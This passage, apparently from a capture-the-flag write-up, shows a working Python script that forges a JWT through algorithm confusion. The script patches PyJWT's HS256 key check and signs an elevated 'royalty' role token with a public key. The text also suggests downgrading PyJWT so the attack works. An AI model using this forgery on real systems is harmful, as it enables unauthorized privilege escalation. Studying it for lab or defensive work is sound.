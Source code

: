 So, after some research, I found that forging a token like this is no longer possible with the latest version of PyJWT. Instead, you can install `pyjwt==0.4.3` with `pip install pyjwt==0.4.3` and run the code above. However, there is also a hackish solution that someone posted.

![](Pasted%20image%2020240907213447.png)

Then I tried this method and adjusted my code accordingly. This is the final version I created:
```python
import jwt
import datetime

# Prepare an override method to bypass key checks
def prepare_key(key):
    return jwt.utils.force_bytes(key)

# Override HS256's prepare key method to disable the asymmetric key check
jwt.api_jws._jws_global_obj._algorithms['HS256'].prepare_key = prepare_key

# Your public key (which is normally only for verification, not signing)
public_key = """ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPIeM72Nlr8Hh6D1GarhZ/DCPRCR1sOXLWVTrUZP9aw2"""

# JWT payload
kingsday = "03_07_1341_BC"
payload = {
    "ROLE": "royalty",
    "CURRENT_DATE": kingsday,
    "exp": datetime.datetime.now(datetime.timezone.utc) + datetime.timedelta(days=(365 * 3000))
}

# Generate a JWT using the public key, bypassing the security check
token = jwt.encode(payload, key=public_key, algorithm='HS256')

# Print the JWT token
print("JWT token:", token)
```
